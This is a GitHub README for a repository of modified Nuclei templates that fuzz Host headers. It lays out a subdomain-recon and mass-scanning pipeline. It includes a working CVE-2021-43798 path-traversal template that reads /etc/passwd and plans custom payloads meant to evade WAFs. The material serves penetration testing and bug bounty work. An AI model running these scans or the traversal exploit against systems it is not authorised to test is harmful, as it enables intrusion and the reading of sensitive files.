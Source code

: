 <h4 align="center"> Modified Nuclei Templates Version to FUZZ Host Header</h4>


<p align="center">
<a href="https://twitter.com/0xAwali"><img src="https://img.shields.io/twitter/follow/0xAwali?style=social"></a>
</p>

<h1 align="center">Requirements</h1>
<h4 align="center">1 - Understand Virtual Host </h4>
<h4 align="center">Virtual Host refers to run more than one web site on a single IP</h4>
<h5 align="center">e.g. You can configure Nginx to run two web site e.g. dev.example.com and api.example.com like that</h5>

```sh
server {
        listen 80;
        listen [::]:80;

        root /var/www/dev/html;
        index index.html;

        server_name dev.example.com;

        location / {
                try_files $uri $uri/ =404;
        }
}
```

```sh
server {
        listen 443 ssl;
        listen [::]:443 ssl;
        
        ssl on;
        ssl_certificate /path/your.crt;
        ssl_trusted_certificate /path/your.crt;
        ssl_certificate_key /path/your.key;
        
        root /var/www/api/html;
        index index.html;

        server_name api.example.com;

        location / {
                try_files $uri $uri/ =404;
        }
}
```

<h4 align="center">2 - Install</h4>
<p align="center">
  <a href="https://github.com/projectdiscovery/dnsx">dnsx</a>
</p>
<p align="center">
  <a href="https://github.com/projectdiscovery/httpx">httpx</a>
</p>
<p align="center">
  <a href="https://github.com/projectdiscovery/nuclei">Nuclei</a>
</p>
<p align="center">
<a href="https://twitter.com/pdnuclei"><img src="https://img.shields.io/twitter/follow/pdnuclei?style=social"></a>
</p>
<p align="center">
  <a href="https://github.com/tomnomnom/anew">anew</a>
</p>
<p align="center">
<a href="https://twitter.com/TomNomNom"><img src="https://img.shields.io/twitter/follow/TomNomNom?style=social"></a>
</p>

<h4 align="center">3 - Clone this Repository</h4>
<p align="center">
  <a href="https://github.com/0xAwali/Virtual-Host">Virtual Host</a>
</p>

<h1 align="center">Usage</h1>

```sh
cat subdomains.txt | dnsx -a -silent -retry 5 -resp -o scanning.txt
```

```sh
cat scanning.txt | tr -d '[]' | awk '{ print $2 }' | sort -u | tee -a ips.txt
```

```sh
cat ips.txt | httpx -threads 200 -silent -retries 2 -timeout 10 -o aliveIPS.txt
```

```sh
cat scanning.txt | awk '{ print $1 }' | sort -u | tee -a resolvableDomains.txt
```

```sh
cat resolvableDomains.txt | httpx -threads 200 -silent -retries 2 -timeout 10 -o websites.txt
```
```sh
cat websites.txt | sed 's|^https://||' | sed 's|^http://||' | tee aliveSUBDOMAINS.txt
```

```sh
cat resolvableDomains.txt | anew aliveSUBDOMAINS.txt -d | tee -a deadSUBDOMAINS.txt
```

```sh
sed -i -- 's|/home/mahmoud/Wordlist/AllSubdomains.txt|/path/deadSUBDOMAINS.txt|' *.yaml
```

```sh
nuclei -c 300 -list aliveIPS.txt -bulk-size 50 -stats -retries 2 -timeout 20 -t "/Templates/CVE/" -severity high -o bugs.txt
```

<h1 align="center">Keep in Your Mind</h1>


<h4 align="center">If You gonna Use SSRF Templates , You must Use Your DOMAIN e.g. </h4>

```sh
nuclei -c 300 -list aliveIPS.txt -bulk-size 50 -stats -retries 2 -timeout 20 -t "/Templates/SSRF/*.yaml" -var "MY-DOMAIN=me.com"
```

<h4 align="center">To Minimize Number of ERRORS , Prefer Using FOR LOOP e.g. </h4>

```sh

for ip in `cat aliveIPS.txt`
do
 nuclei -u $ip -bulk-size 50 -stats -retries 2 -timeout 20 -t "/Templates/" -severity high -o bugs.txt
done

```


<h1 align="center">Tips</h1>
<h4 align="center">if U are Nuclei's Templates Contributer , write Your Templates by using HTTP raw format to MAKE THIS REPOSITORY UPDATE e.g.</h4>

```sh
id:

info:
  name:
  author:
  severity:

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept-Encoding: gzip, deflate
        Accept: */*
        
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 

      - type: word
        words:
          - ""
          - ""
        condition: and

      - type: word
        part: header
        words:
          - ""
```

<h1 align="center">Planning </h1>
<h4 align="center">I'm Trying to modify Nuclei's Templates to become MORE Powerful e.g. CVE-2021-43798</h4>



```sh

id: CVE-2021-43798

info:
  name:
  author:
  severity:


requests:
  - method: GET
    path:
      - "{{BaseURL}}/public/plugins/alertlist/../../../../../../../../../../../../../../../../../../../etc/passwd"

    matchers-condition: and
    matchers:

      - type: regex
        regex:
          - "root:.*:0:0"

      - type: status
        status:
          - 200
```

<h4 align="center">I'm gonna Replace ../../../../../../../../../../../../../../../../../../../etc/passwd to {{FILE-unix}}</h4>


```sh

id: CVE-2021-43798

info:
  name: 
  author: 
  severity:


requests:
  - method: GET
    path:
      - "{{BaseURL}}/public/plugins/alertlist/{{FILE-unix}}"

    matchers-condition: and
    matchers:

      - type: regex
        regex:
          - "root:.*:0:0"

      - type: status
        status:
          - 200
```
<h4 align="center">that will help to bypass WAFs by using Custom paylaods because I think all WAFs detect ../../etc/passwd so using ../../etc/passwd is gonna be useless but using Custom paylaods is gonna be useful</h4>


<h1 align="center">Help ME !</h1>
<h4 align="center">these days I'm trying to find junior web penetration testing position but it's must be Remotely Becuase I'm still Student so IF YOU CAN HELP ME , DM on TWITTER</h4>
<p align="center">
<a href="https://twitter.com/0xAwali"><img src="https://img.shields.io/twitter/follow/0xAwali?style=social"></a>
</p>
